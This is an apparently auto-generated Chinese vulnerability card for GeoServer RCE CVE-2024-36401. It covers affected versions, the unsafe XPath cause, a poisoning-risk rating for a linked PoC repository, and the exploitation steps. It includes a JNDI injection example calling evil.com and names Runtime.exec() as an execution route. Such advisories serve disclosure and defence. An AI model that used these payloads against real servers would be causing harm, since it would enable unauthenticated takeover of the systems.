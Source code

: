 ## CVE-2024-36401-GeoServer-RCE

**漏洞编号:** CVE-2024-36401

**漏洞类型:** 远程代码执行(RCE)

**影响应用:** GeoServer

**危害等级:** 高危，未经身份验证的远程代码执行

**影响版本:** < 2.22.6, >= 2.23.0 < 2.23.6, >= 2.24.0 < 2.24.4, >= 2.25.0 < 2.25.2

**利用条件:** GeoServer服务可公开访问

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2024-36401 是 GeoServer 中一个严重级别的远程代码执行漏洞。该漏洞源于 GeoServer 调用的 GeoTools 库 API 在处理要素类型的属性名时，以不安全的方式将其传递给 commons-jxpath 库，导致在评估 XPath 表达式时可以执行任意代码。虽然最初设计仅用于复杂要素类型，但被错误地应用于简单要素类型，使得所有 GeoServer 实例都受影响。

**有效性：** 根据漏洞库信息、搜索引擎结果和 Mr-xn 提供的漏洞利用代码存储库的存在，确认该漏洞的POC是有效的, 且已被积极利用。

**投毒风险：** 提供的XML代码片段主要包含WMS Capabilities的信息，例如服务名称、标题、摘要、关键字、在线资源、联系方式、费用、访问限制、最大宽度和高度等。它还定义了各种请求类型（GetCapabilities、GetMap、GetFeatureInfo、GetStyles）及其格式和DCPType。XML似乎是合法的WMS capabilities文件，可能用于与GeoServer交互，但缺少触发RCE所需的恶意XPath表达式。因此，直接从提供的XML片段评估，投毒风险较低，约为10%，因为实际利用需要结合特定参数构造恶意请求。例如：攻击者可能使用 `${jndi:ldap://evil.com/evil}`这样的JNDI注入表达式。

**利用方式：**

1.  **攻击入口：** 攻击者可以通过构造特制的OGC（Open Geospatial Consortium）请求，如WFS GetFeature、WFS GetPropertyValue、WMS GetMap、WMS GetFeatureInfo、WMS GetLegendGraphic 和 WPS Execute。
2.  **漏洞触发：** 这些请求中的特定参数（通常是属性名或属性表达式）会被 GeoServer 以不安全的方式传递给 commons-jxpath 库进行 XPath 评估。
3.  **代码执行：** 攻击者在参数中插入恶意 XPath 表达式，例如使用 `Runtime.getRuntime().exec()` 或通过 JNDI 注入等方式来执行任意代码。
4.  **影响：** 成功利用该漏洞可导致完全控制受影响的 GeoServer 系统。

**项目地址:** [cochaviz/cve-2024-36401-poc](https://github.com/cochaviz/cve-2024-36401-poc)

**漏洞详情:** [CVE-2024-36401](https://nvd.nist.gov/vuln/detail/CVE-2024-36401)